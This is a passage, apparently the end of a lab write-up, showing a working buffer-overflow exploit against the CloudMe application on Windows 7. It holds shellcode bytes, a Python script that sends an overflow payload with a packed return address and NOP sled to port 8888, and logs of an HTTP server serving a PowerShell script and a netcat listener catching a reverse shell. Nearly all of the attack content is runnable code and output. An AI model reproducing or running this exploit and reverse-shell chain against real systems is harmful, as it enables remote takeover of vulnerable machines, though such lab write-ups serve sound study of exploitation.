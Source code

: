 ```
b"\xbb\xad\xb2\xfa\x4e\xaf\xf3\x3d\xb1\xda\x0d\x3e\x4c\xdd\xca"
b"\x3c\x8a\x68\xc8\xe7\x59\xca\x34\x19\x8d\x8d\xbf\x15\x7a\xd9"
b"\xe7\x39\x7d\x0e\x9c\x46\xf6\xb1\x72\xcf\x4c\x96\x56\x8b\x17"
b"\xb7\xcf\x71\xf9\xc8\x0f\xda\xa6\x6c\x44\xf7\xb3\x1c\x07\x92"
b"\x42\x92\x32\xd0\x45\xac\x3c\x45\x2e\x9d\xb7\x0a\x29\x22\x12"
b"\x6f\xd5\xc0\xb6\x9a\x7e\x5d\x53\x27\xe3\x5e\x8e\x64\x1a\xdd"
b"\x3a\x15\xd9\xfd\x4f\x10\xa5\xb9\xbc\x68\xb6\x2f\xc2\xdf\xb7"
b"\x65\xb2\xb0\x30\xe3\x40\x3c\xd7\x8e\xc8\xae\x07\x18\x55\x77"
b"\x60\xd4\x30\xf0\x5d\xa7\xd8\x94\xf8\x54\x68\x49\x4d\xfe\xe4"
b"\xa7\x06\x65\x66\xfb\xc4\x0c\x03\x95\x60\xe6\xe5\x0d\xe6\x8f"
b"\x97\xa1\x97\x0e\x03\x69\x1c\xa3\xa2\xe3\xbb\x6b\x13\x94\x37"
b"\x18\x2b\x5e\x97\xcf\xfa\xa7\xd5\x21\xcd\xe1\x21\x10\x1d\x20"
b"\x63\x5c\x6b\x06\xbb\xac\xa3\x46\x94\x9c\x90\x88\x9a\x6f\x27"
b"\xf2\x73\x90"
)

## \xf9\xb4\x7d\x00

payload = b"A"*1052 + pack("<I",0x007db4f9) + b"\x90"*20 + shellcode

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",8888))

s.send(payload)
```

------

## Gaining Remote Access

We execute the created script obtaining a session by powershell

```
❯ python3 exploit.py

───────────────────────────────────────────────────────────────────────
❯ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.0.104 - - [16/Aug/2021 23:40:27] "GET /PS.ps1 HTTP/1.1" 200 -

───────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.106] from (UNKNOWN) [192.168.0.104] 49301
Windows PowerShell running as user win7bits on WIN7
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\win7bits\AppData\Local\Programs\CloudMe\CloudMe>whoami
win7\win7bits
```
